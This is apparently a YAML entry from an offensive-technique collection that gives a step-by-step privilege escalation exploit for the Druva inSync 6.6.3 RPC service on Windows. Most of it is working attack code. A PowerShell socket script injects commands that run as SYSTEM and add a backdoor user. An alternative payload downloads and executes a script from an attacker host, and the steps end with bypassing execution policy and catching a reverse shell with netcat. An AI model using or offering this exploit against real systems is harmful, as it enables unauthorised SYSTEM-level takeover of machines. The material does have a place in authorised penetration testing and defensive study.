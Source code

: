 ```yaml
---
description: |
  This attack leverages a vulnerable third-party Windows service (e.g., Druva inSync) running locally with SYSTEM privileges.
  The service exposes an unsecured RPC interface on a local port, allowing command injection and remote code execution as SYSTEM.
  By sending a crafted command over the RPC service, an attacker can execute arbitrary code such as adding users or running reverse shells.

    Command Reference:
        wmic product get name, netstat, PowerShell, python3 -m http.server, nc

        Target: Druva inSync service version 6.6.3 running on Windows 10 workstation

command: |
  # Enumerate installed applications to identify vulnerable software
  wmic product get name

code: |
  # 1. Enumerate installed products to identify vulnerable applications
  wmic product get name

  # 2. Verify Druva inSync RPC service is running on port 6064
  netstat -ano | findstr 6064

  # 3. Identify process ID and confirm service details
  get-process -Id <PID>
  get-service | Where-Object { $_.DisplayName -like 'Druva*' }

  # 4. Use PowerShell script to send crafted command to RPC service for code execution
  # Replace $cmd with desired command, e.g., add user or reverse shell download
  $cmd = "net user pwnd /add"
  $s = New-Object System.Net.Sockets.Socket([System.Net.Sockets.AddressFamily]::InterNetwork, [System.Net.Sockets.SocketType]::Stream, [System.Net.Sockets.ProtocolType]::Tcp)
  $s.Connect("127.0.0.1", 6064)
  $header = [System.Text.Encoding]::UTF8.GetBytes("inSync PHC RPCW[v0002]")
  $rpcType = [System.Text.Encoding]::UTF8.GetBytes("$([char]0x0005)`0`0`0")
  $command = [System.Text.Encoding]::Unicode.GetBytes("C:\Windows\System32\cmd.exe /c $cmd");
  $length = [System.BitConverter]::GetBytes($command.Length)
  $s.Send($header)
  $s.Send($rpcType)
  $s.Send($length)
  $s.Send($command)

  # OR
  $cmd = "powershell IEX(New-Object Net.Webclient).downloadString('http://<ATTACKER_IP>:8080/shell.ps1')"

  # 5. Start Python server hosting reverse shell payload on attacker machine:
  python3 -m http.server 8080

  # 6. Set PowerShell execution policy to bypass restrictions on target:
  Set-ExecutionPolicy Bypass -Scope Process

  # 7. Execute the PoC PowerShell script on the target to trigger exploited command

  # 8. Start Netcat listener on attacker machine to catch reverse shell connection:
  nc -lvnp <PORT>

  # 9. Verify shell spawned with SYSTEM privileges:
  whoami

items:
  -
services:
  -
OS:
  - Windows
attack_types:
  - Privilege Escalation
references:
  - https://www.rapid7.com/db/modules/exploit/windows/local/druva_insync_elevation
  - https://github.com/rapid7/metasploit-framework/blob/master/modules/exploits/windows/local/druva_insync_elevation.rb
---
```

